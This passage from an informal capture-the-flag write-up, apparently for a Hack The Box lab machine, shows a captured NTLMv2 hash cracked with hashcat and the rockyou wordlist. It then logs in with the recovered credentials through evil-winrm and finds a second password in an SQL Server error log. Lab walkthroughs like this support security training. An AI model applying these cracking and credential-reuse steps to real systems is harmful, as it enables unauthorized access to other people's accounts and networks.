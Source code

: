 catch a hash of user `sql_svc`!

let crack it:
```
echo 'sql_svc::sequel:aaaaaaaaaaaaaaaa:8c9638747e7fbba9e07e1de6d01069d3:010100000000000000c405ed1a00dc018ce56915125f9b8e0000000001001000760070004100490078004b006500660003001000760070004100490078004b00650066000200100055006c00590066006a007400710044000400100055006c00590066006a007400710044000700080000c405ed1a00dc010600040002000000080030003000000000000000000000000030000003e2c98b1e0e2946223517f9b98139541cca9c806e2b6cabaee5236d9bc8bb150a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0033000000000000000000' > sql_svc_hash.txt
```

`hashcat -m 5600 sql_svc_hash.txt /usr/share/wordlists/rockyou.txt --force `
5600 is ntlmv2
CRACKED:
`sql_svc:REGGIE1234ronnie`

lets now login as sql_svc and see what we can find:
`impacket-mssqlclient sql_svc:REGGIE1234ronnie@10.10.11.202`

oh...
```
impacket-mssqlclient sequel/sql_svc:REGGIE1234ronnie@10.10.11.202
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[-] ERROR(DC\SQLMOCK): Line 1: Login failed for user 'sql_svc'.
```
..... a little stuck i check hint:
```
What is the Ryan.Cooper user's password?

Hint:
Enumerate the SQLServer logs. It seems Ryan entered a password as a username at least once.
```
:D

Only problem is i cant get in as sql_svc!

```
crackmapexec mssql 10.10.11.202 -u sql_svc -p 'REGGIE1234ronnie'

MSSQL       10.10.11.202    1433   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
MSSQL       10.10.11.202    1433   DC               [-] sequel.htb\sql_svc:REGGIE1234ronnie name 'logging' is not defined
```

wtffff
lets change service we are attacking, these are valid creds so maybe we can get in via winrm:
`evil-winrm -i 10.10.11.202 -u sql_svc -p 'REGGIE1234ronnie'`

easy as pie!
`*Evil-WinRM* PS C:\Users\sql_svc\Documents> `

and there she is in `C:\SQLServer\Logs\ERRORLOG.BAK`
```
...
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
...
```
what a password!

